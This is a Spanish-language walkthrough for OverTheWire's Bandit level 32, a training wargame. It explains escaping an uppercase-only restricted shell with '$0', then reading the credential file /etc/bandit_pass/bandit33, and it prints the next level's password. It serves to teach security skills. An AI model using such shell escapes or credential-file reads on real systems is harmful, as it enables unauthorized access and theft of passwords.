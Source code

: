 # AF. Walkthrough: Bandit Level 32 to Level 33

## Objetivo del Nivel

En este nivel, debemos escapar de un entorno de shell restringido, donde la mayoría de los comandos habituales están bloqueados. El objetivo es obtener acceso a una shell normal y extraer la contraseña del siguiente nivel.

---

## Pasos para Resolver el Nivel

### 1. Acceder al servidor Bandit32

Conéctate al servidor usando SSH:

```bash
ssh bandit32@bandit.labs.overthewire.org -p 2220
```

Introduce la contraseña obtenida en el nivel anterior.

---

### 2. Explorar el Entorno Restringido

Después de iniciar sesión, notarás que el shell solo acepta comandos en mayúsculas y bloquea comandos estándar como `ls`, `cat`, `man` y `sh`. Esto indica que estamos en una "uppercase shell" que restringe la ejecución de comandos en minúsculas.

Intentar los comandos comunes devolverá errores de permiso:

```plaintext
>> ls
sh: 1: LS: Permission denied
>> sh
sh: 1: SH: Permission denied
```

Debemos encontrar una forma de ejecutar comandos en minúsculas sin ser bloqueados.

---

### 3. Escapar de la Restricción

Podemos aprovechar que la shell restringida podría permitir la ejecución de comandos mediante el uso de una variable especial. Ejecuta lo siguiente:

```plaintext
>> $0
```

Esto nos lleva a una shell normal (`bash`). Ahora tenemos acceso a todos los comandos sin restricciones.

Verificamos que podemos ejecutar comandos básicos:

```bash
ls -la
```

Esto mostrará un archivo binario llamado `uppershell`, que pertenece a `bandit33` y tiene permisos SUID.

---

### 4. Obtener la Contraseña del Siguiente Nivel

Como ahora tenemos una shell normal, simplemente ejecutamos:

```bash
cat /etc/bandit_pass/bandit33
```

Esto mostrará la contraseña para el usuario `bandit33`:

```plaintext
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
```

---

## Conclusión

Este nivel nos enseñó a evadir restricciones impuestas en un shell limitado usando `$0` para obtener acceso a una shell sin restricciones. Ahora podemos conectarnos al siguiente nivel usando:

```bash
ssh bandit33@bandit.labs.overthewire.org -p 2220
```

